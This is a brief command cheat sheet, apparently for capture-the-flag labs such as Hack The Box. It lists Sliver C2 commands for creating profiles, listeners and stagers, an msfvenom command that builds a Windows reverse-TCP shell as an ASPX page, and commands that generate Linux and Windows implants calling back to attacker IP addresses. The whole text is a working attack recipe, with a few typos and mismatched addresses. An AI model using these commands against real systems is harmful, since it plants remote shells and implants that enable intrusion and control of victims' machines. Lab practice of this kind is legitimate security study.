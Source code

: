 
Generate Profile
```
profiles new --http 10.10.16.147:8088 --format shellcode htb
```

Generate Listener
```
stage-listener --url tcp://10.10.16.147:4443 --profile htb
```

Start Listener
```
http -L 10.10.16.147 -l 8088
```

Generate Stager
```
generate stager --lhost 10.10.14.62 --lport 4443 --format csharp --save staged.txt
```

Generate Paylaod
```
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.16.147 LPORT=4443 -f aspx > sliver.aspx
```

Generate Elf
```
generate --mtls 192.168.45.188 --os linux --arch amd64 --format exe --save sliver
```
Shellcode
```
used generate stager --lhost 192.168.45.188 --lport 8443 --os windows --arch amd64 --format raw --save sliver.bin
```